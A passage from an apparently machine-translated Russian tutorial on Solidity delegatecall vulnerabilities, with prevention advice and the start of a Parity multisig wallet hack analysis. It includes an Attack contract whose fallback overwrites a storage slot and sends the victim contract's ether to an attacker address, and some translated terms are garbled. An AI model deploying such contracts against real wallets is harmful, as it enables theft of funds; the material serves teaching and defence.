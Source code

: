 ```
contract Attack {
    uint storageSlot0; // corresponds to fibonacciLibrary
    uint storageSlot1; // corresponds to calculatedFibNumber

    // fallback - this will run if a specified function is not found
    function() public {
        storageSlot1 = 0; // we set calculatedFibNumber to 0, so if withdraw
        // is called we don't send out any ether
        <attacker_address>.transfer(this.balance); // we take all the ether
    }
 }
 ```

Обратите внимание, что этот контракт на атаку изменяет вычисленное число волокна (calculatedFibNumber) путем изменения слота хранения[1]. В принципе, злоумышленник может изменить любые другие слоты хранения по своему выбору, чтобы выполнить все виды атак на этот контракт. Мы рекомендуем вам поместить эти контракты в Remix и поэкспериментировать с различными контрактами атаки и изменениями состояния с помощью этих функций вызова делегата.

Важно также отметить, что когда мы говорим, что delegatecall сохраняет состояние, мы имеем в виду не имена переменных контракта, а фактические слоты хранения, на которые эти имена указывают. Как видно из этого примера, простая ошибка может привести к тому, что злоумышленник перехватит весь контракт и его эфир.

#### Профилактические методы
Solidity предоставляет ключевое слово library для реализации библиотечных контрактов (подробнее см. документацию). Это гарантирует, что библиотечный контракт не имеет статусов и не саморазрушается. Принуждение библиотек к безстатусности смягчает сложности контекста хранения, продемонстрированные в этом разделе. Библиотеки без состояния также предотвращают атаки, в которых злоумышленники изменяют состояние библиотеки напрямую, чтобы повлиять на контракты, зависящие от кода библиотеки. В качестве общего правила, при использовании DELEGATECALL обращайте пристальное внимание на возможный контекст вызова как библиотечного контракта, так и вызывающего контракта, и по возможности создавайте библиотеки без статусов.

#### Пример реального мира: Паритетный мультисигма-кошелек (второй взлом)
Второй взлом Parity Multisig Wallet - это пример того, как хорошо написанный библиотечный код может быть использован, если его запустить не по назначению. Существует ряд хороших объяснений этого взлома, например, "Parity Multisig взломан. Снова" и "Углубленный взгляд на ошибку Parity Multisig".

Чтобы дополнить эти ссылки, давайте изучим контракты, которые были использованы. Библиотеку и контракты кошелька можно найти на GitHub.

Контракт с библиотекой заключается следующим образом:

```
contract WalletLibrary is WalletEvents {

  ...

  // throw unless the contract is not yet initialized.
  modifier only_uninitialized { if (m_numOwners > 0) throw; _; }

  // constructor - just pass on the owner array to multiowned and
  // the limit to daylimit
  function initWallet(address[] _owners, uint _required, uint _daylimit)
      only_uninitialized {
    initDaylimit(_daylimit);
    initMultiowned(_owners, _required);
  }

  // kills the contract sending everything to `_to`.
  function kill(address _to) onlymanyowners(sha3(msg.data)) external {
    suicide(_to);
  }
```